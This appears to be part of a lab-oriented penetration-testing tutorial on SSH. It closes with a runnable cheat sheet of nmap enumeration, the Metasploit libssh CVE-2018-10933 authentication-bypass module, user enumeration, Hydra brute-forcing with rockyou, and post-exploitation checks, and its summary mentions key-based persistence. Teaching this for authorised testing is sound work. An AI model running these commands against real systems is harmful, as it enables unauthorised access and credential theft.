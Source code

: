 ## Practical tips
- libssh vs OpenSSH:
  - If the banner contains libssh_X.Y, consider CVE-2018-10933 (0.7.0–0.7.5 and 0.8.0–0.8.3). libssh2 is different and not affected by that CVE.
  - OpenSSH banners look like OpenSSH_7.2p2 Ubuntu-... (not affected by libssh auth bypass).
- Safe brute-forcing:
  - Throttle attempts (e.g., Hydra -t 4, or MSF’s MaxSessions) to avoid lockouts or DoS.
  - Enumerate valid users first when possible to cut noise and time.
- Check auth methods:
  - Use nmap’s ssh-auth-methods NSE or ssh -o PreferredAuthentications=none to see whether password, publickey, or keyboard-interactive are enabled.
- Misconfig clues:
  - If PasswordAuthentication yes and PermitRootLogin yes, try root with a small, targeted list first (defaults, device/vendor creds).
- Avoid prompts during automation:
  - Use -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null with ssh to avoid host key prompts.
- Evidence and cleanup:
  - Save nmap outputs; note exact banners and versions.
  - If you added keys, remove them in clean labs after testing.

## Minimal cheat sheet (one-screen flow)
```bash
IP=10.10.10.10; PORT=22

# 1) Enum
nmap -p$PORT -sV -sC $IP
nmap -p$PORT --script "ssh2-enum-algos,ssh-hostkey,ssh-auth-methods" $IP
nc -nv $IP $PORT

# 2) If libssh banner & vulnerable version => try bypass (MSF or PoC)
msfconsole -q -x "search libssh; use exploit/multi/ssh/libssh_auth_bypass; set RHOSTS $IP; set RPORT $PORT; run"

# 3) Else enumerate users (optional) and brute-force
msfconsole -q -x "use auxiliary/scanner/ssh/ssh_enumusers; set RHOSTS $IP; set USER_FILE users.txt; run; exit"
[ -f /usr/share/wordlists/rockyou.txt ] || gzip -d /usr/share/wordlists/rockyou.txt.gz
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -s $PORT -f -V -u $IP ssh

# 4) Login and quick post-exp
ssh -p $PORT -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null user@$IP
id; sudo -l; uname -a
```

## Summary
- Identify the SSH service and its implementation with Nmap and banner grabs.
- If it’s libssh within a known vulnerable range, attempt the CVE-2018-10933 authentication bypass (Metasploit or PoC).
- If it’s OpenSSH or not vulnerable, proceed with a controlled credential attack, ideally after enumerating valid users to reduce noise.
- Upon gaining access, perform immediate post-exploitation checks and optionally add an SSH key for persistence in lab settings.
- Document exact versions, banners, and steps taken.